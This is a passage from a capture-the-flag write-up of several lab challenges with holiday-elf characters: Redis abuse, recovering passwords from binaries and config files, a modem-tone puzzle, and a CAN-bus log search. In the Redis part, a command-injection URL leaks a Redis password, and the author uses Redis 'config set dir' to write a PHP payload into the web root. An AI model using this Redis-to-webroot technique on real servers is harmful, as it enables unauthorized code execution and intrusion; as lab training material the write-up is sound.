	curl http://localhost/maintenance.php?cmd=mget,example1
~~~
- Step 3: "curl http://localhost/maintenance.php?cmd=config,get,*"
- Step 4: Notice this in the output:

~~~
dbfilename
dump.rdb
requirepass
R3disp@ss
masterauth
~~~

- Step 5: "redis-cli"
- Step 6: AUTH R3disp@ss
- Step 7: Get php to show the contents of index.php by inserting into a key value.

~~~
127.0.0.1:6379> auth R3disp@ss
OK
127.0.0.1:6379> get test
"foo"
127.0.0.1:6379> config set dir /var/www/html
OK
127.0.0.1:6379> get dir
"/var/www/html"
127.0.0.1:6379> get dbfilename
(nil)
127.0.0.1:6379> set test "<?php $homepage = file_get_contents('index.php'); echo $homepage; ?>
Invalid argument(s)
127.0.0.1:6379> set test "<?php $homepage = file_get_contents('index.php'); echo $homepage; ?>"
OK
127.0.0.1:6379> get test
"<?php $homepage = file_get_contents('index.php'); echo $homepage; ?>"
127.0.0.1:6379> save
OK
127.0.0.1:6379> exit
player@b71845abd4ae:~$ curl http://localhost/maintenance.php --output file
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   700  100   700    0     0   341k      0 --:--:-- --:--:-- --:--:--  341k
player@b71845abd4ae:~$ ls                  
file  maintenance.php
player@b71845abd4ae:~$ cat file

# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 

echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
~~~

# Speaker UNPrep (Bushy Evergreen)
~~~
Help us get into the Speaker Unpreparedness Room!

The door is controlled by ./door, but it needs a password! If you can figure
out the password, it'll open the door right up!

Oh, and if you have extra time, maybe you can turn on the lights with ./lights
activate the vending machines with ./vending-machines? Those are a little
trickier, they have configuration files, but it'd help us a lot!

(You can do one now and come back to do the others later if you want)

We copied edit-able versions of everything into the ./lab/ folder, in case you
want to try EDITING or REMOVING the configuration files to see how the binaries
react.
	
Note: These don't require low-level reverse engineering, so you can put away IDA
and Ghidra (unless you WANT to use them!)
~~~

## Part 1: Open the Door

- Step 1: Ran "strings door"
- Step 2: Observed this output:
~~~
	 (bytes Overflowextern "
	NulErrorBox<Any>thread 'expected, found Door opened!
	That would have opened the door!
	Be sure to finish the challenge in prod: And don't forget, the password is "Op3nTheD00r"
	Beep boop invalid password
~~~
- Step 3: entered the password after being prompted when running the "door" binary

## Part 2: Turn on the Lights

- Step 1: "cd lab"
- Step 2: view "lights.conf" (this is where the username and password is)
- Step 3: run "./lights" and notice that 'select fields are decrypted'
	- Make note of hint from Bushy, which asks 'what if we use an encrypted username'
- Step 4: Replace username with encrypted password.
- Step 5: Run application again. Get the following result:
~~~
elf@59a34b8b05b2 ~/lab $ ./lights
The speaker unpreparedness room sure is dark, you're thinking (assuming
you've opened the door; otherwise, you wonder how dark it actually is)

You wonder how to turn the lights on? If only you had some kind of hin---

 >>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lab/lights.conf

---t to help figure out the password... I guess you'll just have to make do!

The terminal just blinks: Welcome back, Computer-TurnLightsOn

What do you enter? > Computer-TurnLightsOn
Checking......
That would have turned on the lights!

If you've figured out the real password, be sure you run /home/elf/lights
~~~
- Step 6: Notice that the password/username was decrypted! ---> "Computer-TurnLightsOn"
- Step 7: Enter this password in the real "lights" binary prompt when you run it.

## Part 3: Vending Machine

- Step 1: Rename config file.
- Step 2: Try the vending machine binary int the lab and enter a new password:
	- "CandyCane-"   encrypts to "LVEdQPpBwr" LVEdQPpBw	
	- "AAAAAAAAAAAA" encrypts to "XiGRehmwXiGR"
	- "BBBBBBBBBBBB" encrypts to "DqTpKv7fDqTp"
	- "CCCCCCCCCCCC" encrypts to "Lbn3UP9WLbn3"
	- "ABCABCABCABC" encrypts to "XqnRKPmfLiT3"
	- "DDDDDDDDDDD"  encrypts to "yv09iu8Qyv0"
	- "EEEEEEEEEEEE" encrypts to "hxkr3zCnhxkr"
	- "hhhhhhhhhhhh" encrypts to "nnUgokAhnnUg"
	- "aaaaaaaaaaaa" encrypts to "9Vbtacpg9Vbt"
        - "nnnnnnnnnnnn" encrypts to "bhE62XDBbhE6"
	- "ddddddddddddd" encryptsto "ORLdlwWbORLdl"
	- "yyyyyyyyyyyy" encrypts to "iL5JQAMUiL5J"
	- "333333333333" encrypts to "WJ1YbNtlWJ1Y"
	- "eeeeeeeeeeee" encrypts to "wcZQAYuewcZQ"
	- "ssssssssssss" encrypts to "A5PnWSbDA5Pn"
	- "123456789a"   encrypts to "2W1hYoj4lV"
	- "123456789b"   encrypts to "2W1hYoj4lU"
	- "123456789e"	 encrypts to "2W1hYoj4lc"
	- "123456789f"   encrypts to "2W1hYoj4lw"
- Step 3: I tried nearly everything but apparently skipped "CandyCane1". Wow, that was an ordeal!

# 33.6kbps (Fitzy Shortstack)

- Step 1: Dial the number --> 756-8347
- Step 2: Use the following sequence
	- baa DEE brr
	- aaah
	- WEWEWwrwrrwrr
	- beDURRdunditty
	- SCHHRRHHRTHRTR 
- Step 3: Got hint to talk to Shinny Upatree (to steal his tag ID) :)
	- "2006e22f13" 

# CAN-Bus Investigation (Wunorse Openslae)

~~~
Welcome to the CAN bus terminal challenge!

In your home folder, there's a CAN bus capture from Santa's sleigh. Some of
the data has been cleaned up, so don't worry - it isn't too noisy. What you
will see is a record of the engine idling up and down. Also in the data are
a LOCK signal, an UNLOCK signal, and one more LOCK. Can you find the UNLOCK?
We'd like to encode another key mechanism.

Find the timestamp of the UNLOCK code in candump.log and submit it to
./runtoanswer!
~~~

- Step 1: "awk '/19B/' candump.log
- Step 2: Read through list of results 
- Step 3: Start from the bottom and work my way up until getting right time stamp. :)

~~~
elf@d08e90349b0f:~$ awk '/19B/' candump.log
(1608926661.626380) vcan0 244#000000019B
(1608926662.390980) vcan0 244#000000019B
(1608926664.626448) vcan0 19B#000000000000
(1608926667.837300) vcan0 244#00000019BE
(1608926671.122520) vcan0 19B#00000F000000
(1608926673.157900) vcan0 244#00000019BE
(1608926674.092148) vcan0 19B#000000000000
elf@d08e90349b0f:~$ ./runtoanswer 
There are two LOCK codes and one UNLOCK code in the log.  What is the decimal portion of the UNLOCK timestamp?
(e.g., if the timestamp of the UNLOCK were 1608926672.391456, you would enter 391456.
> 092148
Your answer: 092148

Checking....
Sorry, that answer is incorrect. Please try again!
elf@d08e90349b0f:~$ ./runtoanswer 
There are two LOCK codes and one UNLOCK code in the log.  What is the decimal portion of the UNLOCK timestamp?
(e.g., if the timestamp of the UNLOCK were 1608926672.391456, you would enter 391456.
> 122520
Your answer: 122520

Checking....
Your answer is correct!
~~~

